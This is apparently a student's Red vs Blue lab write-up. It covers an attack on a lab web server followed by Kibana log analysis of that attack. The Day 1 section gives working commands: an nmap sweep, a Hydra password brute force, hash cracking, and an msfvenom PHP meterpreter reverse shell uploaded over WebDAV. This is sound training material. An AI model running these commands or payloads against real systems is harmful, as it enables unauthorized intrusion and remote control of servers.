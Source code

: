 ### Presentation

PLACEHOLDER LINK

### Day 1 Deliverables

Complete the following to find the flag:

- Discover the IP address of the Linux web server.
> Run ```nmap 192.168.1.0/24```

![1-network-discovery](screenshots/1-network_discovery.png)

- Locate the hidden directory on the web server.
> Navigate to http://192.168.1.105:80, explored the server contents with a browser.

![2-website](screenshots/2-website.png)
![3-secret-folder](screenshots/3-secret-folder.png)

- Brute force the password for the hidden directory using the hydra command:
> Find the wordlist and unzip the package.

![4-rockyou-find](screenshots/4-rockyou-find.png)
![5-unzip-rockyou](screenshots/5-unzip-rockyou.png)

> Ran Hydra with the following command ```hydra -l ashton -P rockyou.txt -s 80 -f -vV 192.168.1.105 http-get /company_folders/secret_folder```, logged into the website.

![6-hydra-bruteforce](screenshots/6-hydra-bruteforce.png)
![7-secret-folder-contents](screenshots/7-secret-folder-contents.png)

- Break the hashed password with the Crack Station website or John the Ripper.
> Read the contents of the secret folder and cracked the HASH password with John the Ripper. The cracked password is ```linux4u```.

![8-webdav-contents](screenshots/8-webdav-contents.png)
![9-john-the-ripper](screenshots/9-john-ripper.png)

- Connect to the server via WebDav.
> Connected to the WebDav service at ```192.168.1.105/webdav```.

![10-webdav_passwd](screenshots/10-webdav_passwd.png)

- Upload a PHP reverse shell payload.
> Created the payload with ```msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.90 LPORT=4444 -f raw > meterpreter.php``` followed by uploading it with ```cadaver http://192.168.1.105/webdav``` and ```put meterpreter.php```.

![11-msfvenom](screenshots/11-msfvenom.png)
![12-cadaver](screenshots/12-cadaver.png)
![13-metasploit](screenshots/13-metasploit.png)

- Execute payload that you uploaded to the site to open up a meterpreter session.
> Payload executed by going to http://192.168.1.105/webdav/meterpreter.php.

![14-payload](screenshots/14-payload.png)

- Find and capture the flag.
> Ran ```locate flag```, followed by ```head /flag.txt```

![15-locate_flag](screenshots/15-locate_flag.png)
![16-flag](screenshots/16-flag.png)

### Day 2 Deliverables

#### Identify the offensive traffic.

* What time did the port scan occur?

> Port scan from 192.168.1.90 started around 14:42 on May 9th, 2022.

* How many packets were sent, and from which IP?

> 166,131 packets were sent from 192.168.1.90

* What indicates that this was a port scan?

> SYN scans from 192.168.1.90 to multiple ports on 192.168.1.105 through ICMP Echo for host detection.

![port-scan](/Project_2-Red-vs-Blue/screenshots/kibana-portscan.png)

1. Identify the offensive traffic.
   - Identify the traffic between your machine and the web machine:
     - When did the interaction occur?
     - What responses did the victim send back?
     - What data is concerning from the Blue Team perspective?
#### Find the request for the hidden directory.

* What time did the request occur? How many requests were made?

> The request occurred at 15:07 on May 9th, 2022. There were 16,297 requests were made.

![kibana-secretfolder](/Project_2-Red-vs-Blue/screenshots/kibana-secretfolder.png)

* Which files were requested? What did they contain?

> The file ```/connect_to_corp_server``` was accessed. It contains instructions how to access web dav server, including MD5 Hashed password.

![kibana-filelook](/Project_2-Red-vs-Blue/screenshots/kibana-filelook.png)

2. Find the request for the hidden directory.
   - In your attack, you found a secret folder. Let's look at that interaction between these two machines.
     - How many requests were made to this directory? At what time and from which IP address(es)?
     - Which files were requested? What information did they contain?
     - What kind of alarm would you set to detect this behavior in the future?
     - Identify at least one way to harden the vulnerable machine that would mitigate this attack.
#### Identify the brute force attack.

* How many requests were made in the attack?

> There were 16,297 requests made during the attack.

![kibana-hydra](/Project_2-Red-vs-Blue/screenshots/kibana-hydra.png)

* How many requests had been made before the attacker discovered the password?

> 16,296 attempts were made, resulting in HTTP Response code 401. The 16,297th attempt, was successful with HTTP Response code 301.

![kibana-301](/Project_2-Red-vs-Blue/screenshots/kibana-hydra301.png)

3. Identify the brute force attack.
   - After identifying the hidden directory, you used Hydra to brute-force the target server. Answer the following questions:
     - Can you identify packets specifically from Hydra?
     - How many requests were made in the brute-force attack?
     - How many requests had the attacker made before discovering the correct password in this one?
     - What kind of alarm would you set to detect this behavior in the future and at what threshold(s)?
     - Identify at least one way to harden the vulnerable machine that would mitigate this attack.
#### Find the WebDav connection.

* How many requests were made to this directory?

> There were 18 requests made to ```/webdav``` directory.

![kibana-webdav](/Project_2-Red-vs-Blue/screenshots/kibana-webdav.png)

* Which files were requested?

> The file requested was called ```meterpreter.php```.

![kibana-file](/Project_2-Red-vs-Blue/screenshots/kibana-accessedfiles.png)

4. Find the WebDav connection.
   - Use your dashboard to answer the following questions:
     - How many requests were made to this directory? 
     - Which file(s) were requested?
     - What kind of alarm would you set to detect such access in the future?
     - Identify at least one way to harden the vulnerable machine that would mitigate this attack.

5. Identify the reverse shell and meterpreter traffic.
   - To finish off the attack, you uploaded a PHP reverse shell and started a meterpreter shell session. Answer the following questions:
     - Can you identify traffic from the meterpreter session?
     - What kinds of alarms would you set to detect this behavior in the future?
     - Identify at least one way to harden the vulnerable machine that would mitigate this attack.

